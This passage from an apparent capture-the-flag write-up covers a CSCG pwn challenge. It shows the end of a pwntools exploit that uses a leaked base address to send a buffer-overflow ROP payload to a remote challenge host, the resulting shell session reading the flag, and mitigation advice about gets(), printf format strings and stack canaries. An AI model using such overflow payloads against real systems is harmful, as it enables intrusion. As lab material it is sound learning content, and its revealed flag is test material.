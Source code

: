 ```python
log.success(f'Leaked base address: {hex(base)}')
log.info(f'Target address: {hex(win)}')

stack_align = win + 0x36
target.sendline(b'Expelliarmus\0' +
	b'x' * cyclic_find(b'cnaa') +
	p64(stack_align) + p64(win))
target.interactive()
```

Running the exploit drops us into a shell:

```
$ ./solve_1.py
[+] Opening connection to hax1.allesctf.net on port 9100: Done
[+] Leaked base address: 0x557da06f4000
[*] Target address: 0x557da06f49ec
[*] Switching to interactive mode
~ Protego!
┌───────────────────────┐
│ You are a Slytherin.. │
└───────────────────────┘
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
flag
pwn1
ynetd
$ cat flag
CSCG{NOW_PRACTICE_MORE}$ 
```

The flag for this challenge was `CSCG{NOW_PRACTICE_MORE}`.

## 5. Mitigations

There are two possible mitigations and one potential security enhancement:

- Do **not** use `gets()`, rather use a safe function such as `read()`,
`fgets()`, etc.
- Do **not** pass user-supplied data as format argument to `printf()`, rather
pass it to `puts()` or use a format string of `%s`.
- Enable stack canaries, they can help mitigate potential exploits, albeit not
when it's possble to leak stack data, such as is the case in this challenge.
